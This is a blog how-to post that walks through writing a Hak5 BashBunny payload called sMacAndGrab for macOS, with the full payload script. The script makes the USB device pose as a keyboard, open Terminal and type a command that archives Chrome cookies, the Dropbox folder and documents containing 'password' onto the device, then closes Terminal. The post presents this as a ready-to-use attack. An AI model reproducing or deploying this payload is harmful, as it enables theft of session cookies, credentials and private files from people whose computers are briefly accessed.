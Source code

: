 +++
date = "2017-04-01T22:08:35-04:00"
title = "Creating BashBunny Payloads"
Description = "Creating Payloads for the Hak5 BashBunny"
categories = ["HowTo"]
+++


## What is it?

The [BashBunny](http://wiki.bashbunny.com/#!index.md) is an attack platform that allows attackers to
create payloads in Bash. The device can be scripted to enumerate as a HID (keyboard), mass storage,
serial, and Ethernet. This enables a multitude of attacks including thing like exfiltrating
documents over a network interface or stealing account hashes from locked computers.

## Creating a Payload

We want to create a payload that allows for easy exfiltration from macOS. We also don't want to
force the attacker to know the exact path of the files that are to be extracted; we should allow them
to create bash commands whose output returns a list of files that are to be exfilled.

~~~bash.prettyprint

# here we set an amber color to the LED so that the 
# attacker knows that the payload has begun executing
LED G R 500

# instruct the BashBunny to enumerate as both a keyboard and
# mass storage on the host computer (masOS)
ATTACKMODE HID STORAGE

# this creates a folder in the BashBunny's loot directory
# that will be used by our payload
mkdir -p /root/udisk/loot/sMacAndGrab

# enter the name of the volume that will be mounted
dev_name="BASHBUNNY"

# this is a variable that holds the path to which we will instruct
# the target to copy our desired files
lootdir="\"/Volumes/$dev_name/loot/sMacAndGrab\""

# in this section, we add files, directories, and unix commands
# which return lists of files. this text will be typed exactly
# in the macOS terminal. Because this is bash, we have to escape 
# bash characters so that they don't evaluate when the script runs, 
# but rather they're seen as simple text.
files_to_copy=(
"\"~/Library/Application Support/Google/Chrome/Default/Cookies\"" # Quote paths with spaces
"~/Dropbox"  # enter entire directories
"\$(grep -lr password ~/Documents)" # get all Documents with the word 'password'
)
~~~

It's important to remember that this is a bash script and if we don't want symbols like `$;|:~` to
be evaluated, but rather typed or passed to the victim, they must be escaped with a backslash.

In the second half of the payload, we're defining strings that are going to by typed by the
BashBunny on the victim computer. This is why you'll see it peppered with `\\`

~~~bash.prettyprint

# these command instruct the BashBunny to act as a keyboard and physically
# type the commands

# Command + Space to launch Spotlight
QUACK GUI SPACE
QUACK DELAY 1000

# Opens the Terminal program
QUACK STRING terminal
QUACK ENTER
QUACK DELAY 4000

# Types a command to compress all of the previously defined files to 
# the previously defined storage location
QUACK STRING tar -cf \$USER.tar.gz ${files_to_copy[*]}\; mv \$USER.tar.gz $lootdir\; killall Terminal
# $lootdir and $files_to_copy are not escaped because we want them expanded to the variables we set
QUACK ENTER

# sync the filesystem to the BashBunny can be safely removed
sync

# let the attacker know that they can remove the BashBunny
LED G
~~~

And that's that. If one follows the directions in the wiki posted at the beginning of this post for
loading this payload, you have a payload that creates automatic involuntary backups in a matter of
seconds.

I've submitted the code to the official [Hak5 BashBunny Payload]
(https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/SmacAndGrab)
repo as the payload sMacAndGrab. Enjoy!
